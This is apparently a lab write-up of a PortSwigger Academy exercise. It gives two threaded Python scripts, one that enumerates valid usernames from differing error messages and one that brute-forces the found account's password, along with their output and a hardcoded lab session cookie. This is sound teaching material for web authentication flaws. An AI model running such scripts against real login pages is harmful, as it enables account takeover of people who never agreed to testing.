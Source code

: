 # Username enumeration via different responses | Dec 21, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses), you'll learn: Username enumeration via different responses! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-1/images/Pasted%20image%2020221221032856.png)

**Login page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-1/images/Pasted%20image%2020221221032908.png)

**Let's try a username:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-1/images/Pasted%20image%2020221221033010.png)

As you can see, when we input a wrong username, it has an error: `Invalid username`.

**Armed with that information, we can enumerate all usernames via a list of username.**

**To do so, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def fetchUsername(filename):
    listUsername = list()

    with open(filename) as fd:
        for line in fd:
            listUsername.append(line.strip())

    return listUsername

def sendRequest(url, cookie, username):
    loginData = {
        'username': username,
        'password': 'anything'
    }

    loginRequestText = requests.post(url, cookies=cookie, data=loginData).text

    if 'Invalid username' not in loginRequestText:
        print(f'[+] Found user: {username}')

def main():
    url = 'https://0a8400030305e48fc1f053e7000a00e9.web-security-academy.net/login'
    cookie = {'session': 'TJrmhzUBietntmaad88AmJSOn8rzuPU5'}

    userFileName = './auth_username.txt'
    listUsername = fetchUsername(userFileName)
    
    for username in listUsername:
        thread = Thread(target=sendRequest, args=(url, cookie, username))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_username.py
[+] Found user: al
```

- Found user `al`.

Next, we need to brute force that account's password.

**But first, let's try to type an invalid password:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-1/images/Pasted%20image%2020221221034626.png)

**Again, we can do the same thing via python:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def fetchPassword(filename):
    listPassword = list()

    with open(filename) as fd:
        for line in fd:
            listPassword.append(line.strip())

    return listPassword

def sendRequest(url, cookie, password):
    loginData = {
        'username': 'al',
        'password': password
    }

    loginRequestText = requests.post(url, cookies=cookie, data=loginData).text

    if 'Incorrect password' not in loginRequestText:
        print(f'[+] Found password: {password}')

def main():
    url = 'https://0a8400030305e48fc1f053e7000a00e9.web-security-academy.net/login'
    cookie = {'session': 'TJrmhzUBietntmaad88AmJSOn8rzuPU5'}

    passwordFileName = './auth_password.txt'
    listPassword = fetchPassword(passwordFileName)
    
    for password in listPassword:
        thread = Thread(target=sendRequest, args=(url, cookie, password))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_password.py
[+] Found password: qwertyuiop
```

- Found user `al`'s password: `qwertyuiop`.

**Let's login as that user!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-1/images/Pasted%20image%2020221221035025.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-1/images/Pasted%20image%2020221221035031.png)

We're user `al`!

# What we've learned:

1. Username enumeration via different responses